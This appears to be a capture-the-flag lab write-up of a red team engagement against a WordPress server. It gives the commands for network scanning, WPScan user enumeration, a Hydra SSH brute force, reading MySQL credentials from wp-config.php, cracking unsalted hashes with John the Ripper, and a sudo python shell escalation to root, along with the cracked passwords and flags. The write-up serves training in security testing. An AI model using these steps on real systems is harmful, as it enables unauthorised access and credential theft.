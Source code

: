 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

A netdiscover scan revealed the below IP addresses to be on the network:

```bash
$ netdiscover -r 192.168.1.255-16
```

![Pen test - Kali netdiscover -r 192 168 1 255-16](https://user-images.githubusercontent.com/88017838/153582890-fdd92bcc-9d61-4bb7-9081-01d59983567f.PNG)

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![Pen test - Kali nmap -sV 192 168 1 110](https://user-images.githubusercontent.com/88017838/153583803-da04ca70-fe0a-477d-8b35-e5a1054eeaa5.PNG)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp   open  ssh OpenSSH 6.7p1 Debian5+deb8u4                     
  - Port 80/tcp   open  http Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp  open  rpcbind 2-4 (RPC #100000)
  - Port 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
  - Port 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X

Common Vulnerabilites and Exposures:

  - CVE-2021-28041 open SSH (Severity-7.1 High)
  - CVE-2017-15710 Apache httpd 2.4.10 (Severity-7.5 High)
  - CVE-2017-8779 rpcbind able to be exploited to initiate denial of service attack (Severity-7.5 High)
  - CVE-2017-7494 Samba remote code execution vulnerability (Severity-10 Critical)

### Critical Vulnerabilities:

The following vulnerabilities were found on Target 1:

- User Enumeration (Wordpress)
  - Able to obtain username details for michael and steven via 'wpscan'
  - Can then initiate brute force attacks to crack passwords for these users
  
- Weak Password
  - Brute force tools are able to easily crack user's password (password for user michael was 'michael')
  - Once the password was cracked, the attacker is able to SSH into the server

- Sensitive Data Exposure
  - Able to find a file with root user access details to MySQL database
 
- Unsalted Password Hashes
  - Password hashes located by viewing MySQL table data
  - These were unsalted and able to be cracked using 'John the Ripper' tool

- User Privilege Escalation
  - Able to utilise user steven's sudo privileges for python to escalate to root


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Target 1

  - `flag1.txt`:{b9bbcb33e11b80be759c4e844862482d}
  
   - **Exploit Used**
    - WPScan was used to enumerate users on the Wordpress site for Target 1
    - **`wpscan --url 192.168.1.110/wordpress --enumerate vp,u`**

![Pen test - Kali WPS scan command](https://user-images.githubusercontent.com/88017838/153717305-6f93c63e-b549-4056-b2ce-85e0a36f9ae6.PNG)
![Pen test - Kali WPScan Users identified](https://user-images.githubusercontent.com/88017838/153717542-e785b810-839e-471f-9ee7-4b5890003b9e.PNG)

- SSH using michael's credentials:
  - Focusing on the user michael, I was able to run a Hydra brute force to quickly obtain his password, which as indicated below is a weak and easily crackable one
  - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh -t 4
  - Using michael's credentials we can then SSH into 192.168.1.110 and located flag1 by following below steps:
  - **`cd /var/www/html`**
  - **`ls -l`**
  - after investigating multiple files, the flag1 was located via nano services.html
      
![Pen test - Kali Hydra michael](https://user-images.githubusercontent.com/88017838/153717654-754970ea-af9a-4c40-8590-47abebbd7194.PNG)
![image](https://user-images.githubusercontent.com/88017838/153718079-8aa99bb7-b2c8-4a1a-9f90-d25bed0ae648.png)


  - `flag2.txt`:{fc3fd58dcdad9ab23faca6e9a36e581c}
  
   - **Exploit Used**
      - While still logged in as michael via SSH I was able to locate flag2 by following the below
      - **`cd /var/www`**
      - **`ls -l`**
      - **`cat flag2.txt`**

![image](https://user-images.githubusercontent.com/88017838/153718231-699b0a91-8495-4810-923e-253e78175acc.png)


   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
   
   - **Exploit Used**
       - Locating the wp-config.php file
       - cd /var/www/html/wordpress 
       - cat wp-config.php revealed the username and password for MySQL database
 
 ![Pen test - Kali wordpress wp-config php](https://user-images.githubusercontent.com/88017838/153732790-5ff99b27-2ed4-4702-9b26-3653a5056ecd.PNG)
 
 ![Pen test - Kali wordpress wp-config php cont](https://user-images.githubusercontent.com/88017838/153732794-7e93eee8-8755-4a89-ab8a-c6c2b0d47edf.PNG)

 - MySQL server:
   - Using the command mysql -u root -p and the credentials found in wp-config.php we were able to gain access to the MySQL server
   - The **`show databases;`** command reveals wordpress database which we can then access with **`use wordpress;`**
   - **`show tables;`** then reveals two unsalted password hashes for users michael and steven
   - **`select * from wp_posts;`** further investigation using this command reveals flag3
 
 ![Pen test - Kali mysql michael ssh](https://user-images.githubusercontent.com/88017838/153732968-d29dcfed-9f99-4c7c-a60a-c783c1961818.PNG)

 ![Pen test - Kali wp_posts user hashes](https://user-images.githubusercontent.com/88017838/153732974-8bdb86b1-9566-43fa-a6ac-8bb7eae7b6c1.PNG)

 ![image](https://user-images.githubusercontent.com/88017838/153733028-890cd68f-010e-4828-98d4-cb3f4b61703e.png)

   - `flag4.txt`:{715dea6c055b9fe3337544932F2941ce}
     
   - **Exploit Used**
       - Misconfigured privilege escalation and unsalted hashes from MySQL database
       - Using the hashes found previously in the MySQL database for michael and steven we extracted these to a wp_hashes.txt file and ran John the Ripper
       - **`john wp_hashes.txt
       - Once the hash for user steven was cracked we can SSH into 192.168.1.110 using password pink84
       - Here we ran **`sudo -l`** followed by **`sudo python -c 'import pty;pty.spawn("/bin/bash")'`** to escalate to root 
       - As indicated below, the exploit was successful and we were able to change to root and locate flag4
  
  ![image](https://user-images.githubusercontent.com/88017838/153733258-7942f54a-f1e1-4843-9707-3d353d2b8419.png)

  
     
